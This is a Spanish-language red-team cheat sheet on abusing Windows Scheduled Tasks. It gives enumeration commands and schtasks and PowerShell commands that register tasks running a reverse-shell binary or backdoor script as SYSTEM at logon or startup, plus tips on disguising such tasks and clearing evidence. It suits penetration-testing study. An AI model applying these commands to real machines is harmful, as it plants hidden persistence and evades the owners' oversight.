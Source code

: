 # Scheduled Tasks como Vector de Ataque

## ✨ Concepto

Las *Scheduled Tasks* (Tareas Programadas) en Windows permiten ejecutar programas de forma automática en un horario definido, al iniciar sesión o cuando ocurre un evento. Los atacantes pueden abusarlas para:

* Persistencia (ej. ejecutar un payload al reiniciar).
* Escalada de privilegios (ej. ejecutar como SYSTEM).
* Movimiento lateral (ej. crear tareas en otras máquinas).
* Ejecución arbitraria (bypass de restricciones por UAC o AppLocker).

## ⚖️ Requisitos comunes

* Permisos para crear/modificar tareas (usuario con privilegios).
* Acceso a servicios de programación (Task Scheduler o schtasks.exe).
* Si es remoto: acceso DCOM/WinRM/SMB + privilegios.

## ⚛️ Flujo de Ataque (Local)

1. **Enumerar tareas existentes** → identificar tareas vulnerables o con configuración insegura.
2. **Modificar tarea existente** o **crear una nueva** que ejecute payload.
3. **Asegurar persistencia** o ejecutar tarea manualmente.
4. **Limpiar evidencia si es necesario**.

## 🕹️ Comandos y herramientas ─ Enumeración

### PowerShell

```powershell
# Todas las tareas programadas
Get-ScheduledTask | Select TaskName, TaskPath, State

# Detalles de una tarea
Get-ScheduledTask -TaskName "NombreTarea" | Get-ScheduledTaskInfo

# Tareas creadas por el usuario
Get-ScheduledTask | Where {$_.Principal.UserId -notlike "NT AUTHORITY*"}

# Comprobar la acción que ejecuta una tarea
Get-ScheduledTask | ForEach-Object {
  $_.Actions | Select-Object Execute, Arguments
}
```

### CMD

```cmd
schtasks /query /fo LIST /v > tareas.txt
```

### Sysinternals

* **Autoruns**: Ver tareas automáticas.
* **AccessChk**: Ver permisos sobre el binario que ejecuta la tarea.

## ⚒️ Ejecución / Abuso

### Crear tarea (CMD)

```cmd
schtasks /create /tn "Update" /tr "C:\Temp\rev.exe" /sc onlogon /rl highest /ru SYSTEM
```

### Ejecutar tarea manualmente

```cmd
schtasks /run /tn "Update"
```

### Crear tarea en PowerShell

```powershell
$action = New-ScheduledTaskAction -Execute "C:\Temp\rev.exe"
$trigger = New-ScheduledTaskTrigger -AtLogOn
Register-ScheduledTask -TaskName "Update" -Action $action -Trigger $trigger -RunLevel Highest -User "SYSTEM"
```

## 🔧 Herramientas

* `schtasks.exe` (integrado en Windows)
* `PowerShell` (módulos: ScheduledTasks)
* [WinPwn](https://github.com/S3cur3Th1sSh1t/WinPwn) (automatiza abuso de tareas)
* [Seatbelt](https://github.com/GhostPack/Seatbelt): enumera tareas sospechosas
* `Autoruns` / `AccessChk` (Sysinternals)
* `Task Scheduler GUI` (`taskschd.msc`)

## 🔒 Persistencia ejemplo

```powershell
# Al iniciar el sistema, ejecutar backdoor como SYSTEM
schtasks /create /tn "WinUpdate" /tr "C:\Tools\backdoor.ps1" /sc onstart /ru SYSTEM /rl HIGHEST
```

## 💡 Consejos

* Busca tareas que ejecutan binarios en rutas donde puedes escribir.
* Verifica tareas que se ejecutan como SYSTEM pero fueron creadas por usuarios bajos.
* Algunas tareas con nombre como *UpdateTask*, *Cleanup*, *Telemetry* pueden ser camufladas fácilmente.
* Usa `AccessChk` para ver si puedes modificar el ejecutable o la tarea misma.

---
